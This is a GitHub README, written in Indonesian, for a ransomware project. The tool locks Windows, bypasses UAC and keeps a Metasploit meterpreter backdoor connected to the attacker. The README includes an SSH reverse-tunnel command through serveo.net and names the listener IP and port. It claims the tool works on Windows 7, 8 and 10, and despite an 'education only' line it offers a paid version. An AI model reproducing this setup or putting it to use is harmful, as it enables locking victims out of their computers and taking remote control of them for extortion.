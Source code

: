 # My Ransomeware 2018

[Catatan]

- Jalankan software pada virtual operating system yang berjalan pada VMWare atau virtualBox

- Jangan merubah nama folder (VirusUI), mengedit nama file pada folder tersebut jika anda menjalankan pada BypassWinSetup.exe untuk mendapatkan akses UAC.

[Alat yang digunakan]

- Windows sub system linux (WSL) - Kali Linux

- Metasploit

- SSH

- VMWare

[Cara Kerja Software]

- Windows akan terkunci dan anda tidak bisa melakukan apa2 karna system inti di nonaktifkan cara satu2nya anda harus unlock dengan memasukan encrypt key ke dalam software untuk kambali ke seperti semula

- Selama komputer victim terhubung ke internet, maka komputer victim akan terus tersuntikan meterpreter dengan komputer penyerang secara realtime


[Opendoor.exe]

- jika anda sudah memiliki pengetahuan tentang pembuatan file backdoor, anda bisa merubah reverse untuk meterpreter dengan menimpah file Opendoor.exe dengan backdoor buatan anda.


[SSH]

- Backdoor mendengarkan port 9998 dengan IP 159.89.214.31 dari seveo.net

- [cmd] -> ssh -R 9998:127.0.0.1:4444 darksite@serveo.net


[Tested Works]

- Windows 10 versi up

- windows 8

- windows 7

[Screenshoot]

![alt tag](https://github.com/webmestudio/myransomeware/blob/master/screenshoot/RS1.PNG)

![alt tag](https://github.com/webmestudio/myransomeware/blob/master/screenshoot/RS2.PNG)

![alt tag](https://github.com/webmestudio/myransomeware/blob/master/screenshoot/RS3.PNG)

![alt tag](https://github.com/webmestudio/myransomeware/blob/master/screenshoot/RS4.PNG)

[Tujuan]

- Ini untuk edukasi saja, jadi gunakan dengan bijak :D

- jika anda menginginkan versi developer software ini anda bisa hubungi saya dan tidak gratis. 

- Kasih saya donasi untuk kopi dan rokok :D
